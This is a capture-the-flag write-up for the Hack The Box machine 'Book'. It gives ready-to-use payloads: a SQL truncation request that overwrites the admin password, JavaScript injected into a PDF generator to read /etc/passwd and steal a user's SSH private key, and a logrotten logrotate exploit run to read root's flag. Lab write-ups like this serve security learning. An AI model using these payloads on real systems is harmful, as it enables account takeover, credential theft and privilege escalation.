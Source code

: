 # Book
## User
Nmap scan:
```
Nmap scan report for 10.10.10.176
Host is up (0.033s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
```
The nmap scan didn't find any other interesting ports so I first looked at the website. 
It has a login panel but you can also create an account, so I did that and logged in.

![](img/login.png)

There I found a List of books that didn't seem to interesting and a contact form to send the admin a message.
This also showed the Admins email, which I need if I want to log in as an admin.

![](img/contact.png)

At `http://10.10.10.176/collections.php` it's also possible to upload a Book (as a pdf), but I couldn't do anything with it yet.
So I decided to run `dirb` against the website and I found an admin login panel, but I could not log in there.
```
$ dirb http://10.10.10.176
---- Scanning URL: http://10.10.10.176/ ----
==> DIRECTORY: http://10.10.10.176/admin/ 
```

![](img/admin_login.png)

After trying all sorts of SQL-Injections I did some more research and found an article on [SQL Truncation Attacks](https://resources.infosecinstitute.com/sql-truncation-attack/) and decided to try that.
First I checked if the emails used to login also get truncated, so I created an account with a very long email.

![](img/create_account.png)
 
When I tried to login I got an error which it got truncated. I just have to find out by how much.
But because you have to enter a valid email to sign in I had to manually edit the POST request and after a few tries successfully logged in.
```
Request Data:
email=aaaaaaaaaaaaaaaaaaaa&password=a
```
Since it truncates after 20 characters I just had to add a few more to override the admin password:
```
Request Data:
name=Admin&email=admin@book.htb      test&password=admin
```
With this I was then able to log in on the admin login page. 
This unlocks a page where you can download a PDF with all the books in the library which also contains the books uploaded by users.

![](img/collection.png)


Since the PDF's are dynamically generated with input I can control, I can use that to my advantage.
[This article](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) helped me a lot with it. 
When uploading a PDF I entered some HTML into the `Book Title` field to check if it worked.

`<img src=x onerror=document.write('aaaa')>`

![](img/submission.png)

PDF:

![](img/first_pdf.png)


And it worked, so I tried reading a file, which also worked.
```
<script>
  x=new XMLHttpRequest;
  x.onload=function(){
    document.write(this.responseText)
  };
  x.open("GET","file:///etc/passwd");
  x.send();
</script> 
```

![](img/passwd.png)


Then I checked if the `.ssh/authorized_keys` file exists, as that might allow me to steal a SSH-Key.
```
<script>
  x=new XMLHttpRequest;
  x.onload=function(){
    document.write(this.responseText)
  };
  x.open("GET","file:///home/reader/.ssh/authorized_keys");
  x.send();
</script>
```

![](img/authorized_keys.png)


This also worked but the text was cut off, so I decreased the font size and stole the SSH-Key.
```
<script>
  x=new XMLHttpRequest;
  x.onload=function(){
    document.write('<p style="font-size: 2px">' + this.responseText + '</p>')
  };
  x.open("GET","file:///home/reader/.ssh/id_rsa");
  x.send();
</script>
```

![](img/id_rsa.png)


With that I was able to connect via SSH and get the user flag.
```
$ chmod 600 id_rsa
$ ssh reader@book.htb -i id_rsa

$ whoami
reader
```
## Root

After a bit of enumeration I found a suspicous service with [pspy](https://github.com/DominicBreuker/pspy) that gets executed regularly.
```
CMD: UID=0    PID=6108   | /usr/sbin/logrotate -f /root/log.cfg 
CMD: UID=0    PID=6107   | /bin/sh /root/log.sh
```
I checked if there were any known vulnerabilities and found [one that allowed for privilage escalation](https://github.com/whotwagner/logrotten/blob/master/logrotten.c)so I checked the 3 conditions.

`Logrotate needs to be executed as root`: 

Is fullfiled as I saw in pspy.

`The logpath needs to be in control of the attacker`: 

There is a `backups` folder that logrotate uses. 
As it is in `/home/reader/` I have full control over it.

`Any option(create,compress,copy,etc..) that creates a new file is set in the logrotate configuration.`: 

I can't read the configuration file as it is at `/root/log.cfg` but when I write anything into `/home/reader/backups/access.log` a new file is created. 
This means the option must be set in the config file.

Now that I know the conditions are fulfilled I can try to exploit it.
First I created a `logrotten.c` file with the code from the exploit.

Then I compiled it with gcc: `$ gcc -o logrotten logrotten.c` and created a payload `$ echo "cat /root/root.txt > /tmp/root" > payload`.

Finding the right payload and the right arguments for `logrotten` wasn't easy, but after a lot of experimenting and a machine reset I was able to get it to work. Now I just had to execute it and add something to the log in another terminal.
```
$ ./logrotten /home/reader/backups/access.log -p payload
Waiting for rotating /home/reader/backups/access.log...

$ echo a > access.log  // In other terminal

Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
```
After a few seconds the file appeared in the `/tmp` folder and I could read out the flag.



